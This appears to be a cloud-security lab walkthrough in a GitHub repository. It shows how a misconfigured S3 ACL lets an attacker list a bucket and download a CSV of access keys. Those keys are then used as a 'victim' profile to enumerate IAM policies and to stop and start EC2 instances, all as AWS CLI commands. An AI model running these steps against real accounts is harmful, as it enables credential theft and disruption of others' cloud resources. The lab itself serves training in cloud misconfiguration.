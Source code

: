 # ACL Authenticated group 


* Clone the repository 

```bash
git clone https://github.com/bvabhishek/misconfigured_acl.git
```
* Go to Directory 

```bash
 cd misconfigured_acl/
```
* change the permission of bucket_finder tool
```bash
chmod 777 bucket_finder.rb
```
* Lets use the bucket_finder tool to check our target bucket exist or not

```bash
./bucket_finder.rb my_words
```

* Go to the target URL and check if there is any attack scenario

    * https://vallabh.s3-us-west-2.amazonaws.com/

* Let's make the s3 bucket name as gloabal variable as we need to use it again

```bash
export s3bucket=<bucketname>
```
```bash
echo $s3bucket
```

* Let's try enumerating the S3 bucket by listing the object

```bash
aws s3 ls s3://$s3bucket

```

* Now lets try accessing it though our AWS profile (your own)

* if you havent configured your profile follow the below steps

```bash
aws configure --profile #your_profile_name
```

* Now try listing thew objects

```bash
aws s3 ls s3://$s3bucket --profile your_profile_name
```

* Fish around the bucket 

```bash
aws s3 ls s3://$s3bucket/etc/ --profile your_profile_name
```

* Download the juicy file (Relative path to your present working directory)

```bash
aws s3 cp s3://$s3bucket/etc/user.csv . --profile your_profile_name
```
* See the contents of csv file 
```bash
cat user.csv
```
* configure the access key id and secret access key as attacker profile 

```bash
aws configure --profile victim

```
* Now check if you can access if any S3 objects present by using aws cli

```bash
aws s3 ls --profile victim
```

// abhi add ec2 full and iam readonly 

* Check the user profile 

```bash
aws sts get-caller-identity --profile victim
```
* lets try to pull out any s3 files

```bash
aws s3 ls --profile victim
```

* Now lets check the user policies attached to the user if any, to figure out which all resources he might have

```bash
aws iam list-attached-user-policies --user-name victim --profile victim
```

* we came to know that he has ec2 access, now check if any running ec2 instance

* lets check if any running ec2 instance 

```bash

aws ec2 describe-instances --profile victim --region us-west-2 --query 'Reservations[].Instances[?State.Name==`running`]' --output json

```

* lets export the instance id i-083b2833c663866d1

```bash
export iId=<instance id>
```
```bash
echo $iId
```

* Copy the Public IP address and paste in browser

```bash
aws ec2 describe-instances --instance-ids $iId --region us-west-2 --query 'Reservations[0].Instances[0].PublicIpAddress' --output text --profile victim

```
* Open new terminal 

* Lets stop the instance 

```bash
aws ec2 stop-instances --instance-id $iId --profile victim --region us-west-2

```
// after a minute start the instance
* Lets stop the instance 

```bash
aws ec2 start-instances --instance-id $iId --profile victim --region us-west-2

```

* To check where may be the misconfiguration 
```bash
aws s3api get-bucket-acl --bucket $s3bucket --profile victim
```

* Another misconfiguration is providing excess policy such as "IAMReadOnlyAccess"

```bash 
aws iam list-attached-user-policies --user-name victim --profile victim
```
